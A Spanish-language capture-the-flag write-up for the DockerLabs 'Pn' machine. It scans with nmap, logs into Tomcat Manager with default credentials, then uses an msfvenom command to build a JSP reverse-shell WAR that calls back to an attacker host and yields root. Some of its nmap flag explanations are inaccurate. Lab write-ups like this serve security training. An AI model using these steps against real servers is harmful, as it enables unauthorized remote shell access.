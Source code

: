 # -Pn
**Herramientas y recursos usados**
- nmap
- gobuster
- knock
- hydra

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Los40ladrones`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_1.jpg)   

Solo tenemos un puerto abierto, el 8080, donde podemos ver que está corriendo un Tomcat.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_2.jpg)     

Podemos intentar acceder con las credenciales por defecto.    
Buscamos en Google cuáles suelen ser y probamos si alguna de ellas funciona.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_3.jpg)    

¡Vemos que hay una combinación que sí funciona!    
Si intentamos acceder a través de Manager App y proporcionamos como usuario **tomcat** y como contraseña **s3cr3t**, ya podemos acceder.    

Ahora lo que haremos será crear un archivo .war malicioso con la herramienta **msfvenom**.    
Utilizaremos el comando:   

`sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=6969 -f war -o rev.war`  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_4.jpg)     

Una vez creado, lo subiremos a través del menú **WAR file to deploy**.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_5.jpg)   

Por último, nos pondremos a la escucha en nuestra máquina atacante y abriremos el archivo que hemos cargado.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_6.jpg)   

¡Y listo!   
¡Ya somos root!  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_7.jpg) 



